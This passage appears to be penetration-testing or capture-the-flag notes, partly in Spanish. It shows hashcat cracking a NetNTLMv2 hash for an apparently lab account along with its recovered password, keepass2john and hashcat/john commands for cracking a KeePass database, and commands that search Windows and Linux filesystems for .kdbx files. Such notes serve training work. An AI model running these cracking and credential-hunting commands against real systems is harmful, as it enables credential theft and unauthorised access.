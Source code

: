 ```
* Bytes.....: 139921497
* Keyspace..: 14344384

BACKUPAGENT::INLANEFREIGHT:d865666f39a9b532:01d7e2f5b84a3c82ce68d2811dcc234f:<NTLMV2_RESPONSE_BLOB>:h1backup55

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: BACKUPAGENT::INLANEFREIGHT:d865666f39a9b532:01d7e2f...000000
Time.Started.....: Thu Jan 16 08:34:36 2025 (1 sec)
Time.Estimated...: Thu Jan 16 08:34:37 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (.\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 13202.6 kH/s (5.06ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 8257536/14344384 (57.57%)
Rejected.........: 0/8257536 (0.00%)
Restore.Point....: 7340032/14344384 (51.17%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: ina&alessandro -> estampida02
Hardware.Mon.#1..: Temp: 54c Fan: 36% Util: 26% Core:1408MHz Mem:1742MHz Bus:8

Started: Thu Jan 16 08:34:22 2025
Stopped: Thu Jan 16 08:34:38 2025
PS C:\Users\Grunt\Desktop\hashcat-6.2.6>
```

## Crack keepass database

```
┌──(kali㉿kali)-[~/Desktop/boxes/Keeper]
└─$ ls
passcodes.kdbx  req.txt
                                                                                                                       
┌──(kali㉿kali)-[~/Desktop/boxes/Keeper]
└─$ keepass2john passcodes.kdbx > keephash.txt
                                                                                                                       
┌──(kali㉿kali)-[~/Desktop/boxes/Keeper]
└─$ ls
keephash.txt  passcodes.kdbx  req.txt
```

- Ahora con hashcat: `hashcat -m 13400 keephash.txt /usr/share/wordlists/rockyou.txt`
- o con john: `john --wordlist=/usr/share/wordlists/rockyou.txt keephash.txt`


### Buscar bases de datos de keepass
- **Windows**: `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue`
- **Linux**: `find / -type f -name "*.kdbx" 2>/dev/null`

